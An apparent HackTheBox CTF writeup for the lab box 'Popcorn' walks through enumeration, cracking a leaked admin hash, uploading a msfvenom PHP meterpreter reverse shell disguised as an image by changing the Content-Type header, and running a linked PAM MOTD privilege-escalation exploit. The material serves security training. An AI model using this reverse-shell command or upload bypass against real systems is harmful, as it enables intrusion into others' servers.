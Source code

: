 ```yaml
---
title: "HackTheBox Writeup: Popcorn"
date: 2019-08-23T02:36:15+02:00
tags:
  - hackthebox
  - ctf
  - writeup
---
```


![img](/images/popcorn-writeup/1.png)

A medium difficulty Linux box, where pretty much all the difficulty comes from the road to user, getting root consists in a very straightforward local privilege escalation exploit, user access is achieved by uploading a PHP shell from an image upload page.

---

## Enumeration

Let's begin right away with an nmap scan to identify running services:

![img](/images/popcorn-writeup/2.png)

Only two open ports, one for SSH access and the other leads to a standard installation of Apache, or so it seems from the homepage at least:

![img](/images/popcorn-writeup/3.png)

We don't have anywhere else to look for content so we run a dirb scan to enumerate hidden files and folders within the web server, and of course, we find out there is quite the amount of content, it's just hidden from casual lookers:

![img](/images/popcorn-writeup/4.png)

The torrent folder seems to contain a whole portal to share torrents:

![img](/images/popcorn-writeup/5.png)

We can even create our own account but I'll save that function up for later, because dirb has also found a "database" directory within the files in /torrent, which contains the backup of a database in SQL format that we can read. The most interesting part is at the very end of the file:

![img](/images/popcorn-writeup/6.png)

According to the structure of the users table, we have found the hashed password of user Admin, which has admin privileges. The password is hashed though so we must obtain the plain text equivalent first, it looks like an MD5 hash, so with a bit of lucky we may find a match on CrackStation's huge database:

![img](/images/popcorn-writeup/7.png)

Found it! It's "admin12", so now we can log in on the website and see what functionalities it has to offer:

![img](/images/popcorn-writeup/8.png)

So the password has been changed since the last backup, running hydra against the login with a list common passwords doesn't seem to work either, making this a rabbiy hole. So let's go look for something more interesting, perhaps after creating our own personal account:

![img](/images/popcorn-writeup/9.png)

Every user has access to the Upload section, where we can upload torrents to share with other users. The web application makes sure we are only trying to upload torrents, in fact trying to upload any other kind of file causes an error:

![img](/images/popcorn-writeup/10.png)

So I'm just going to grab a random .torrent file, I went for a Kali Linux image torrent because there is already one in the homepage. Once uploaded we can see there is an "add screenshot" feature, which turns out to be much less secure than the torrent upload form.

---

## Exploitation: image upload bypass

Let's see if a meterpreter shell can be sent as a fake image:

    $ msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.14.67 LPORT=9090 -o baudy.php

![img](/images/popcorn-writeup/12.png)

Intercept the upload POST request with Burp and change the Content-Type header of the shell from Application/php into image/jpeg and that's enough to trick the application into uploading the file, without having to alterate the extension either:

![img](/images/popcorn-writeup/13.png)

![img](/images/popcorn-writeup/14.png)

The web server accepted it and uploaded the file without hesitation. Looking back to our old dirb scan we also found a folder for uploads, located in /torrent/upload:

![img](/images/popcorn-writeup/15.png)

Our shell has been renamed but is still there intact, so we can start a listener on our host and then start the shell by clicking on it:

![img](/images/popcorn-writeup/16.png)

We are in as www-data and we have access to /home/george, where we find our user flag. In this same home folder we have a .cache subfolder that contains a weird little file:

![img](/images/popcorn-writeup/17.png)

---

## Exploitation: PAM MOTD privilege escalation

Looking this up on Google immediately reveals a [local privilege escalation exploit](https://www.exploit-db.com/raw/14339) so we download it on our box and pass it on to Popcorn with a temporary HTTP server, I use PHP for this:

![img](/images/popcorn-writeup/18.png)

![img](/images/popcorn-writeup/19.png)


1. Change directory to /tmp/ to have write permissions
+ Download the exploit from our box
+ Add execute permissions to the exploit
+ Run
+ Profit





















